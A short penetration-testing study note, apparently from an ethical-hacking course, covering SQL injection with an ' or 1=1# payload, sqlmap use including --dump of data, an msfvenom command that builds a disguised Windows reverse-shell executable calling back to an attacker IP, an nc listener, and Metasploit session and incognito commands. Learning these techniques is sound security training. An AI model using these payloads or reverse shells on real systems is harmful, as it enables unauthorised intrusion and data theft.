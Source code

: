 ##### Try SQL injection in Repeater
- add to one of the value -->  `' or 1=1#`
- to include it -->  select this text > CTRL+U
- then click on Send 

#### sqlmap 
Automate finding SQL injection vulnerabilities
- copy the clean POST request  (without `' or 1=1#`)
- save it inside a txt file
- run `sqlmap -r req.txt`

if it said "all tested parameters do not appear to be injectable":
=>
What can we do now:
- go back to manual testing
- download a list of payloads and try to fuzz it
- look for other injection points

`sqlmap -r req2.txt --level=2`  -->  for cookies
<span style="background:#fff88f">if you find a payload:</span>
`sqlmap -r req2.txt --level=2 --dump` -->  to try to use the payload against the webserver

[[Notes_ETH#Sqlmap|example here]]


----
### Metasploit
#### Use a module
[[Notes/TCM/ETH/Capstones/Blue/report#Steps automated exploit|Use a module]]

#### Create and rename a shell
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.15 LPORT=7777 -f exe -o Wise.exe`
`-p` --> payload
`LHOST `--> attacker ip
`-f` -->  file type of the payload that we want create
`-o` -->  name of the payload

to listen for the reverse shell -->  `nc -nvlp 7777`

#### Pause and Enter in a Session
when you have a shell for example:
by typing `background` -->  you can go back to metasploit
`sessions` -->  you can see the active sessions
`sessions 1` -->  to go back into the session 1

#### Load an extension (es incognito)
once you have a shell for example:
`load incognito`
`options`              (to see all the extension commands)

> [!info] 
>if you only type load and press tab:
>=>
>you can see all the extensions that you can use
